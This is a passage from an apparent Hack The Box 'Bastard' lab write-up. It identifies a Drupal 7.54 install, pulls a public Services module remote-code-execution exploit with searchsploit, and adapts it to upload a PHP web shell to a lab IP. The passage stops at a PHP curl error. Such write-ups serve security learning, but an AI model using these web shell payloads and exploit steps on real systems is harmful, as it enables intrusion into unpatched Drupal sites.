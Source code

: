 ```http
GET /CHANGELOG.txt.txt HTTP/1.1

...
Drupal 7.54, 2017-02-01
...
```

We now know the version of Drupal that's being used. We can now try and find a working exploit for that version.

```bash
luc@kali:~/HTB/Bastard$ searchsploit drupal 7.
...
Drupal 7.x Module Services - Remote Code Execution | php/webapps/41564.php
...
luc@kali:~/HTB/Bastard$ searchsploit -m php/webapps/41564.php
```

This exploit sounds interesting because no authentication before exploitation is needed. We do need to make some changes to the script, `$url` and `$endpoint_path`.

```php
$url = 'http://vmweb.lan/drupal-7.54';
$endpoint_path = '/rest_endpoint';
...
$file = [
    'filename' => 'dixuSOspsOUU.php',
    'data' => '<?php eval(file_get_contents(\'php://input\')); ?>'
];
```

`/rest_endpoint` isn't a valid directory on this machine, but browsing to `/rest` shows the message `Services Endpoint "rest_endpoint" has been setup successfully.`.

```php
$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
...
$file = [
    'filename' => 'exploit.php',
    'data' => '<?php echo system($_REQUEST["cmd"]); ?>'
];
```

```bash
luc@kali:~/HTB/Bastard$ php 41564.php
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics
# Website: https://www.ambionics.io/blog/drupal-services-module-rce


#!/usr/bin/php
PHP Fatal error:  Uncaught Error: Call to undefined function curl_init() in /home/luc/HTB/Bastard/41564.php:254
Stack trace:
#0 /home/luc/HTB/Bastard/41564.php(104): Browser->post('application/vnd...', 'a:2:{s:8:"usern...')
#1 {main}
  thrown in /home/luc/HTB/Bastard/41564.php on line 254
```
